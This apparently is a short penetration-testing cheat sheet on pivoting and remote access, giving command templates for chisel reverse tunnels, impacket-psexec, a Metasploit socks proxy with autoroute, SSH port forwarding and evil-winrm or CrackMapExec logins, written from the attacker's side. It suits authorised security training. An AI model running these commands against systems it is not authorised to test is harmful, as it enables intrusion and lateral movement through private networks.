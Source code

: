# Tools

`chisel` Tunneling.
`impacket-psexec` Remote access.
`nc` Connections.
`proxychains` Tunneling.
`socat` Tunneling.
`ssh` Remote connections, tunneling.
`sshuttle` Tunneling.

# Chisel

Server
`chisel server -p port --reverse`

Client
`chisel client server_ip:server_port R:local_port:client_ip:client_port`

# PsExec

`impacket-psexec 'user:pass@ipaddress'`

# Socks Proxy

## Method 1

Metasploit
```
search socks
use auxiliary/server/socks_proxy
run
```

Edit attacker /etc/proxychains.conf
```
[ProxyList]
socks5 127.0.0.1 1080
```

Enable autoroute in Metasploit to automatically route all internal networks of the remote system back to us through Socks Proxy
```
search autoroute
use post/multi/manage/autoroute
set session sessionnumber
run
```

# SSH

Connect Using SSH Key
```
chmod 600 id_rsa
ssh -i id_rsa user@host
```

Local Port Forwarding
`ssh [-fNT to run in bg] -L [local_addr:]:local_port:remote_addr:remote_port [user@]gateway_addr`

Remote Port Forwarding
`ssh [-fNT to run in bg] -R [remote_addr:]remote_port:local_addr:local_port [user@]gateway_addr`

Dynamic Port Forwarding
```
ssh -D port user@target

Can configure browser proxy, e.g., FoxyProxy, for web access.

To proxychains this, edit /etc/proxychains4.conf:
socks5 127.0.0.1 port username password
```

# WinRM

Evil-WinRM
`evil-winrm -i ipaddress -u username -p password`

CrackMapExec
`crackmapexec winrm ipaddress -u username -p password`
